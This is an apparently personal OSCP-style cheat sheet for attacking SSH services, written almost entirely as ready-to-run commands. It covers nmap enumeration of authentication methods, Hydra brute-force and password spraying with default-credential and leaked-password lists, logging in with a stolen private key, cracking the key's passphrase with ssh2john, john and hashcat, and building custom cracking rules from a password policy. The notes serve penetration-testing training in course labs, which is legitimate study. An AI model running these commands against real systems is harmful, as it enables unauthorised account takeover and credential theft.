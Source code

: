 # SSH

```bash
ls -1 /usr/share/nmap/scripts/ssh
sudo nmap -p 22 --script ssh-auth-methods 192.168.IP
```


## Brute Force
```bash
# Try Default Creds, think admin:admin, root:calvin
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -s port ssh://<IP>  -I

# Password brute-force using Hydra.
hydra -t 4 -V -l <username> -P <password-list> -s <ssh-port> ssh://<target-ip>
# Password spraying using Hydra.
hydra -t 4 -V -L <username-list> -p <password> -s <ssh-port> ssh://<target-ip>
hydra -L "/usr/share/seclists/Usernames/top-usernames-shortlist.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 22 -o "./scans/ssh_hydra.txt" ssh://IP
# -e nsr : do extra password check, name as password, reverse, etc..
# -t 4 : thread count 4

# remove comments/ fix john password list for hydra use, 
sed '/^#/d' /usr/share/john/password.lst > clean_passwd.lst
```
## SSH Private Key Passphrase
- Often found via WWW Directory Traversal 
```bash
# connect with id_rsa
chmod 600 id_rsa                 # Set permissions on our found SSH PRIV KEY
ssh -i id_rsa dave@192.168.IP -p 2222  

### Cracking SSH Priv Key passphrase
# 1. convert id_rsa hash to john format
ssh2john id_rsa > ssh.hash   
john --wordlist=/home/kali/Wordlists/rockyou.txt hash

# For HASHCAT, with text editor, remove any leading filenames before $6 in file ssh.hash
# For John, the file should be g2g

# find correct -m mode to use
hashcat -h | grep -i "ssh"      
hashcat -m 22921 ssh.hash ssh.passwords  --force

### Custom Rule SET password policy
hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force

# if hashcat throws an error, use john instead
john --wordlist=ssh.passwords --rules=[CUSTOM_RULE_GOES_HERE] ssh.hash

###Updating /etc/john/john.conf for custom RULE list
# 3 numbers, A cap Passwords need 3 numbers, a capital letter and a special character
# ssh.rule :  a password 'word' and convert it to 'Word000!' 'Word000@' 'Word000# 'Word001!' etc
[List.Rules:sshPWKRules]
c $[0-9] $[0-9] $[0-9] $!
c $[0-9] $[0-9] $[0-9] $@
c $[0-9] $[0-9] $[0-9] $#

# append john.conf
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

### Create customized password list from rule set
john --wordlist=ssh.passwords --rules=sshPWKRules --stdout > chp16passwords.txt
```

## OSCP SSH switches
* Do to re-use of IPs/hosts in the course, there is a **Recommended Syntax for Module VMS**
* These  options have been added to prevent the known-hosts file from  being corrupted
	* `~/.ssh/known_hosts`
* The reason we use these options is to eliminate our known-hosts file from identifying mismatched machine info when we revert lab machines. 
* `ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52`
		* `UserKnownHostsFile=/dev/null`  - Prevents the server host key from being recorded
		* `StrictHostKeyChecking=no`         - Do *NOT* verify the authenticity of the server host key
```bash
# connect 
ssh -i alfred_id_rsa alfred@192.168.110.201 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -p 2222  
```
